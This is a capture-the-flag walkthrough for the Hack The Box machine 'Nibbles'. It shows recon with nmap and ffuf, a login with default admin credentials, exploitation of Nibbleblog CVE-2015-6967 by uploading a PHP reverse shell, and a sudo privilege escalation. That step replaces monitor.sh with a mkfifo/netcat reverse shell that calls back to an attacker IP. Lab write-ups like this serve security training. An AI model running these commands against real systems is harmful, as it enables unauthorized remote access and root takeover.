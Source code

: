```yaml
---
cover: ../../.gitbook/assets/Nibbles.png
coverY: 247.12533333333332
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Nibbles

`CVE-2015-6967` `file upload` `php` `sudo`

```bash
john@attack> echo '10.129.96.84 nibbles.htb' | sudo tee -a /etc/hosts
john@attack> nmap nibbles.htb -sV
```

| Port     | Version                         |
| -------- | ------------------------------- |
| `22/tcp` | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 |
| `80/tcp` | Apache httpd 2.4.18             |

```bash
john@attack> curl http://nibbles.htb
```

Content is on http://nibbles.htb/nibbleblog.

<figure><img src="../../.gitbook/assets/nibbles4.png" alt=""><figcaption></figcaption></figure>

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2987
```

Directories found : `/content` `/themes` `/admin` `/plugins` `/README` `/languages`

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ.php -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2986
```

Files found : `/sitemap.php` `/feed.php` `/admin.php` `/install.php` `/update.php`

```bash
john@attack> curl http://nibbles.htb/nibbleblog/README | less
```

Nibbleblog version : `v4.0.3`. It exists an exploit for this version : https://nvd.nist.gov/vuln/detail/CVE-2015-6967

<figure><img src="../../.gitbook/assets/nibbles8.png" alt=""><figcaption></figcaption></figure>

The default credentials are `admin:nibbles`.

```bash
john@attack> cp usr/share/webshells/php/php-reverse-shell.php image.php
```

Change the IP address in the file `image.php` by the attacker IP address. Then upload this file and save.

<figure><img src="../../.gitbook/assets/nibbles10.png" alt=""><figcaption></figcaption></figure>

```bash
   john@attack> nc -lnvp 1234 &
   john@attack> curl http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
   john@attack> CTRL+C
   john@attack> fg
nibbler@target> cat /home/nibbler/user.txt  # flag
nibbler@target> sudo -l
```

<figure><img src="../../.gitbook/assets/nibbles13.png" alt=""><figcaption></figcaption></figure>

```bash
nibbler@target> unzip /home/nibbler/personal.zip
   john@attack> vi monitor.sh
```

Edit the content of the `monitor.sh` file.

```bash
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.45 1235 >/tmp/f
```

```bash
nibbler@target> nc -lnvp 8000 > /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc nibbles.htb 8000 < monitor.sh
```

Target has received the `monitor.sh` corrupted file.

```bash
nibbler@target> chmod +x /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc -lnvp 1235
nibbler@target> sudo /home/nibbler/personal/stuff/monitor.sh
   root@target> cat /root/root.txt # flag
```
